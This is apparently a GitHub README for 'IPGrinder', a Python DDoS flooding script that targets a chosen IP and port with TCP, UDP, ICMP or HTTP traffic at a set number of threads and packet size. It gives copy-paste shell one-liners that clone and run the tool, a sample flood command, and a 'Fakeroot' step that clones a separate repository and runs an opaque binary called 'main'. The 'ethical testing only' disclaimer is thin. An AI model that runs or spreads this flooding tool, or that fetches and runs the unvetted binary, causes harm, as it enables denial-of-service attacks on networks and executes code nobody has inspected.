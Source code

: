 # IPGrinder

**IPGrinder** is a DDoS script intended for **stress testing infrastructure**.

> ⚠️ This tool is meant for **educational and ethical testing purposes only**. Do **not** use it on networks or systems without explicit authorization.

---

## 🔧 Setup for Fakeroot

### Manual Steps

```bash
apt-get update && apt-get upgrade -y
apt-get install git -y
git clone https://github.com/adarshaddee/root.git
cd root
chmod +x main
./main
```

### One-liner

```bash
pkg --check-mirror update && apt-get update && apt-get upgrade -y && apt-get install git -y && git clone https://github.com/adarshaddee/root.git && cd root && chmod +x main && ./main
```

---

## ⚙️ Setup for IPGrinder

### Manual Steps

```bash
pkg update && pkg upgrade -y
pkg install git python -y
git clone https://github.com/NeoMatrix14241/IPGrinder.git
cd IPGrinder
python ipgrinder.py
```

### One-liner

```bash
pkg --check-mirror update && pkg update && pkg upgrade -y && pkg install git python -y && git clone https://github.com/NeoMatrix14241/IPGrinder.git && cd IPGrinder && python ipgrinder.py
```

---

## 🚀 Usage

```bash
python ipgrinder.py <IP> <PORT> [PROTOCOLS] [THREADS_PER_PROTO] [PACKET_SIZE]
```

### Parameters

- `<IP>` – Target IP address
- `<PORT>` – Target port
- `[PROTOCOLS]` – Comma-separated list of protocols (udp, tcp, icmp, http, all)
- `[THREADS_PER_PROTO]` – Number of threads per selected protocol
- `[PACKET_SIZE]` – Size of each packet in bytes

### Example

```bash
python ipgrinder.py 192.168.1.1 80 tcp,udp 100 1024
```

---

**Disclaimer:** The creator is **not responsible** for any misuse or damage caused by this tool.
